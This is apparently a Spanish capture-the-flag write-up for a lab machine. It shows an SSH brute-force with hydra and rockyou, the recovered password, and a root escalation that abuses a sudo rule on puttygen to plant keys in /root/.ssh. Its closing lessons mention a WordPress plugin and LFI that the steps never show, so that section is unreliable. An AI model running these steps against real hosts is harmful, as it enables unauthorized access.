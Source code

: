 Tenemos este usuario **curiosito** al cual aplicaremos fuerza bruta por **ssh**
```bash
hydra -l curiosito -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://172.17.0.2
```

### Credenciales Encontradas
Tenemos un usuario valido para el servicio **ssh**
```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: curiosito   password: password1
```
### Vector de Ataque
Ahora que tenemos las credenciales las usaremos para tomar el control del objetivo por **ssh**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh curiosito@172.17.0.2
```

---

## Escalada de Privilegios
###### Usuario `[ Curiosito ]`:
Listando los permisos para ese usuario:
```bash
sudo -l

User curiosito may run the following commands on a562c37486ba:
    (root) NOPASSWD: /usr/bin/puttygen
```

Ahora explotamos el privilegio:
```bash
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/id
sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
```

Ahora desde nuestra maquina atacante descargamos:
```bash
scp curiosito@172.17.0.2:/home/curiosito/.ssh/id .
```

Ahora nos conectamos como **root**:
```bash
# Comando para escalar al usuario: ( root )
ssh -i id root@172.17.0.2
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a explotar el plugin de wordpress
2. Aprendimos a ejecutar un **LFI** atraves de un plugin vulnerable